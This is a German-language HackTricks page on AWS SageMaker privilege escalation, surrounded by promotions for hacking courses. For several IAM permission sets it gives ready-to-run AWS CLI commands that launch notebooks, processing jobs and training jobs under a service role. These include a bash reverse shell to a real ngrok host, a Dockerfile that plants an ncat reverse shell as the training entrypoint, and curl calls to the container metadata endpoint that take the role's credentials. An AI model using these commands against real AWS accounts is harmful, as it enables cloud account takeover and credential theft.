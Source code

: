 # AWS - Sagemaker Privilegieneskalation

## AWS - Sagemaker Privilegieneskalation

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Grund auf mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merchandise**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositories einreichen.

</details>

### `iam:PassRole`, `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

Beginnen Sie mit der Erstellung eines Notebooks mit der IAM-Rolle, die darauf zugreifen kann:
```bash
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::<account-id>:role/service-role/<role-name>
```
Die Antwort sollte ein `NotebookInstanceArn` Feld enthalten, das den ARN der neu erstellten Notebook-Instanz enthält. Anschließend können wir die `create-presigned-notebook-instance-url` API verwenden, um eine URL zu generieren, die wir verwenden können, um auf die Notebook-Instanz zuzugreifen, sobald sie bereit ist:
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
Navigieren Sie zur URL mit dem Browser und klicken Sie oben rechts auf "Open JupyterLab", scrollen Sie dann zum Tab "Launcher" und klicken Sie unter dem Abschnitt "Other" auf die Schaltfläche "Terminal".

Jetzt ist es möglich, auf die Metadatenanmeldeinformationen der IAM-Rolle zuzugreifen.

**Potenzielle Auswirkungen:** Privilege Escalation zur angegebenen Sagemaker-Service-Rolle.

### `sagemaker:CreatePresignedNotebookInstanceUrl`

Wenn bereits Jupyter-Notebooks darauf ausgeführt werden und Sie sie mit `sagemaker:ListNotebookInstances` auflisten können (oder sie auf andere Weise entdecken). Sie können eine URL für sie generieren, auf sie zugreifen und die Anmeldeinformationen stehlen, wie in der vorherigen Technik angegeben.
```bash
aws sagemaker create-presigned-notebook-instance-url --notebook-instance-name <name>
```
**Potenzielle Auswirkungen:** Privilege Escalation zum Sagemaker-Dienstrollenanhängen.

### `sagemaker:CreateProcessingJob,iam:PassRole`

Ein Angreifer mit diesen Berechtigungen kann **Sagemaker anweisen, einen Verarbeitungsauftrag auszuführen** mit einer Sagemaker-Rolle daran angehängt. Der Angreifer kann die Definition des Containers angeben, der in einer **AWS verwalteten ECS-Konto-Instanz** ausgeführt wird, und **die Anmeldeinformationen der angehängten IAM-Rolle stehlen**.
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**Potenzielle Auswirkungen:** Privilege Escalation zum angegebenen Sagemaker-Service-Rolle.

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

Ein Angreifer mit diesen Berechtigungen kann einen Trainingsjob erstellen, der einen beliebigen Container ausführt, der mit einer Rolle verbunden ist. Daher kann der Angreifer die Anmeldeinformationen der Rolle stehlen.

{% hint style="warning" %}
Dieses Szenario ist schwieriger auszunutzen als das vorherige, da Sie ein Docker-Image generieren müssen, das die Reverse-Shell oder Anmeldeinformationen direkt an den Angreifer sendet (Sie können keinen Startbefehl in der Konfiguration des Trainingsjobs angeben).
```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% endhint %}
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**Potenzielle Auswirkungen:** Privilege Escalation auf die angegebene Sagemaker-Service-Rolle.

### `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

Ein Angreifer mit diesen Berechtigungen wird (potenziell) in der Lage sein, einen **Hyperparameter-Abstimmungsjob** zu erstellen, **einen beliebigen Container darauf auszuführen** und ihm eine **angehängte Rolle** zuzuweisen.\
_Ich habe es nicht ausgenutzt wegen Zeitmangels, aber es sieht ähnlich aus wie die vorherigen Exploits, fühlen Sie sich frei, einen PR mit den Exploitationsdetails zu senden._

## Referenzen

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Null auf Held mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositories senden.

</details>
